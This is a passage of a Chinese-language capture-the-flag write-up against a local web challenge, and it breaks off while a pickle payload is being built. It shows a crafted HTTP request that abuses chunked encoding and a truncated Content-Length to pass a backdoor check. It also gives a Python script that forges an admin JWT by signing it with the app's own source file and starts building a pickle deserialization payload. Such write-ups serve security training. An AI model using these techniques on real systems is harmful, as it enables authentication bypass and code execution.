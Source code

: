 ![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714313627490-461182a7-03b0-4df1-a16f-d94b81d35be8.png)

```php
POST /admin HTTP/1.1
Host: 127.0.0.1:8083
Transfer-Encoding: Chunked
Content-Type: text/plain
Content-Length: 49
Cookie: token=eyJhbGciOiJIUzI1NiIsImtpZCI6ImFwcC5weSIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IncxbmQiLCJpc2FkbWluIjp0cnVlfQ.4gIWuWq7pNmO_lkSjQ-FFhnjaYLKTJIFp-mCGgn39ug

5
MTIz
1c
BackdoorPasswordOnlyForAdmin
0
```

需要那个backdoor字符串才能往下走，但是backdoor路由的pickle反序列化又不能有这个backdoor字符串?，绕不过那个if语句，进入不到pickle反序列化

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714313627569-f6d49a00-b40c-472f-a22d-3eb3936d8563.png)

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714313627703-9a874472-dab7-4955-a7c8-4994228960a2.png)

请求包更改content-length可以截断body传递的值，现在直接改base64编码的部分即可，注意也要同时修改content-length的长度

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714313627690-2e4d5d36-5c82-4879-b626-106f8afe522e.png)

接下来就是pickle反序列化

```php
import base64
import jwt

def get_key():
    try:
        with open("app.py", "r") as f:
            # with open("/Users/w1nd/Desktop/ctf2024/d3ctf2024/2/debug/frontend/src/app.py", "r") as f:
            key = f.read()
    except:
        pass
    # print(key)
    return key

def get_token():
    user_info = {"username": "w1nd", "isadmin": True}
    key = get_key()
    token = jwt.encode(user_info, key, algorithm="HS256", headers={"kid": "app.py"})
    print("Cookie: token="+token)
    print("Transfer-Encoding: CHUNKED\nContent-Type: text/plain")

get_token()
def get_chunked(payload):
    data = "{}\r\n{}\r\n1c\r\nBackdoorPasswordOnlyForAdmin\r\n0\r\n\r\n".format(hex(len(payload))[2:], payload)
    print("Content-Length: {}\n".format(len(payload)))
    print(data)

def get_pickle_payload():
    payload=b'''cbuiltins
getattr
(cbuiltins
getattr
(cbuiltins
```